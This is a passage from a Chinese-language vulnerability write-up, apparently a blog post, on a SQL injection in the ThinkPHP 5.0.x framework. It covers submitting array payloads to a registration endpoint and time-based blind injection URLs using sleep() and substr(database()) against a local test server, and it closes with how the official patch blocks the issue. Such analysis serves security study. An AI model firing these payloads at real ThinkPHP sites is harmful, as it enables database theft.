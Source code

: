 添加/a尝试提交数据注入尝试：



### 直接对注册接口提交payload

![3.2](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/漏洞分析/thinkphp框架学习/Thinkphp5.0.15SQL注入漏洞挖掘分析/3.3.png)



感觉这个漏洞比较鸡肋必须要满足用户接收一个数组输入时才能触发，一般的功能点也不会这样写，但是也不一定吧，遇到的时候可以多尝试。



### 在debug没开启时可以通过时间盲注的形式获取数据，paylaod:

```sql
?username[0]=inc&username[1]=sleep(5)&username[2]=1

http://127.0.0.1:8888/tp5.0.1/public/index.php/index/index/?username[0]=inc&username[1]=If(ascii(substr(database(),1,1))=115,1,sleep(3))&username[2]=1
```



## 4.官方修复原理

输入的val[1]必须和字段值相等才会进行拼接，字段值不可能为paylaod:updatexml(0x7e,user(),0x7e);等注入语句，也就修复了注入问题。
